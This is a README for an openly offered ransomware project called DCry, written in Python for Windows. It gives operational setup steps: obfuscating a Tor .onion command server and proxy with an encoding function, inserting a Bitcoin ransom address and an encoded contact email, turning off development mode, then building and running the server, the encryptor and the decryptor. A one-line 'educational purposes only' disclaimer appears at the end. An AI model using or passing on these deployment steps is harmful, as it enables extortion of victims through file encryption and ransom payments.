 <h1 align="center">Don't-Cry Ransomware PoC</h1>
  
<div align="center">

  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Requires-Rust%20%3E%3D%201.87.0-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
</div>

![DCry](imgs/DCry.png)
PoC ransomware written in Python 💀💀💀

## Usage
* Open the [`DCry.py`](src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` similarly with your encoded email address. 
  ```python 
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()   
  ```
* Set `dev_mode = False` to disable development mode.
* Open the [`Decryptor.py`](src/Decryptor.py) file.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/Server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCry.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/Decryptor.py
  ```

## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.

## FAQ 
* See details in [FAQ.md](docs/FAQ.md)

## Contributing  
* See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code Of Conduct  
* See our community standards in [CODE_OF_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security
* See the security policy in [SECURITY.md](docs/SECURITY.md)


## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
